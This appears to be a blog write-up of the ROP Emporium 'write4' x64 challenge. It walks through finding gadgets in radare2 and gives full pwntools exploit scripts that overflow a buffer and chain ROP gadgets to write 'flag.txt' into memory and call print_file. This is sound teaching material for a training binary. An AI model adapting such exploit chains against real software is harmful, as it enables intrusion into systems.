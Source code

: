 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x64)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium write4
tags: rop-emporium write4 x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x64-useful-gadgets.png)

The `mov` instruction will set the value from
`r15` (8 byte qword) into the dereferenced address 
set in `r14`. This is what we'll use to write to memory!
The gadget address is `0x00400628`

### Mov Arguments
> Find a gadget to control `r14` and `r15` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `r14` and
`r15` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop r14
```

![mov args gadget](/images/write4/x64-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop rbp` instruction entirely! The address
we'll use to set `r14` and `r15` is `0x0x00400690`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `r15`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x64-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x00601028`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> sets the `rdi` register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x64-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x00400510`

Now we need to set the first argument to this function.
According to the
[x64 calling convention](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"},
the first argument of a function is passed through the `rdi`
register. Let's find a gadget to control it

```
/R pop rdi
```

![rdi-addr](/images/write4/x64-rdi-addr.png)

Perfect! Our gadget address is `0x00400693`

## Exploit
We finally have everything to build the final exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028
print_file_addr = 0x00400510
pop_rdi = 0x00400693

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload

# create payload
payload = b'A' * 40

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(print_file_addr)

# send payload + receive flag
io = process('./write4')
io.recvline()
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x64-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

write4 x86

